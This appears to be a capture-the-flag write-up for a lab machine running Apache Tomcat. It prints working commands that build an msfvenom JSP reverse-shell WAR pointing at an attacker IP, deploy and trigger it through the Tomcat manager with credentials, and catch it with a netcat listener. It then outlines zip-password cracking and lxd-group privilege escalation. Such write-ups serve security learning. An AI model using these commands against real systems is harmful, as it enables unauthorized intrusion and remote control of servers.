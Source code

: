 https://github.com/p0dalirius/ApacheTomcatScanner

![[/assets/images/tabby7.png]]

# Initial Access
-  Craft a `.war` reverse shell using _msfvenom_ and upload and deploy following the Tomcat's official documentation achieves the initial access as tomcat user.

# Creating a `war` file and deploying it to the server
- A `war` file is an archived Java application. 
## Create a reverse shell
```sh
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.50 LPORT=9001 -f war > shell.war
```
## Upload a reverse shell
```sh
curl -u 'tomcat':'$3cureP4s5w0rd123!' -T shell.war 'http://10.10.10.194:8080/manager/text/deploy?path=/my-shell'
```
## List deployed shell
```sh
curl -u 'tomcat':'$3cureP4s5w0rd123!' http://10.10.10.194:8080/manager/text/list
```
## Start netcat listener
```sh
rlwrap nc -lvnp 9001
```
## Execute the deployed shell
```sh
curl -u 'tomcat':'$3cureP4s5w0rd123!' http://10.10.10.194:8080/my-shell/
```

![[/assets/images/tabby19.png]]
![[/assets/images/tabby20.png]]


# Lateral Movement
- Enumeration of the directories and files reveals the archive `/var/www/html/16162020_backup.zip`, that is owned by the user ash, and password-protected.
- Crack password using _zip2john_.
- Re-using the same password for the user ash gives access. `su ash`.
# Privilege Escalation
- Linpeas output reveals that the user ash is part of `(lxd)` group. 
- The lxd (Linux Daemon) is a system container manager, that controls lxc (Linux Container).Linux Container (LXC) is a virtualization technology that runs isolated containers using a singleLinux kernel. It is possible for the user ash to create a privileged container and then use it to mount the host filesystem.
- Follow the instructions on the Internet to gain root shell.
